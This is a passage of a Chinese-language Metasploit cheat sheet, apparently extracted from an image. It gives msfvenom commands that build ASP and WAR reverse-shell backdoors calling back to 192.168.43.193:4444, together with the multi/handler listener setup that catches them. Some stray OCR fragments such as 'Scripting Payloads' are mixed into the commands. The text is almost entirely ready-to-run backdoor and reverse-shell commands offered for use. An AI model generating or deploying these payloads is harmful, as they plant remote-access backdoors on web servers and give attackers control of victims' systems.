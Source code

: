```


set LPORT 4444



exploit
```

## 4.asp后门

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=监听端ip地址 LPORT=监听端端口 -f asp > 文件路径/文件名



案例：msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.193 LPORT=4444 -f asp > shell.asp
```

### 监听设置

```
msfconsole



use exploit/multi/handler



set payload windows/meterpreter/reverse_tcp



set LHOST 192.168.43.193



set LPORT 4444



exploit
```

## 5.war后门

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=监听端ip地址 LPORT=监听端端口 -f war > shell.war



Scripting Payloads



案例：msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.43.193 LPORT=4444 -f war > shell.war



Scripting Payloads
```
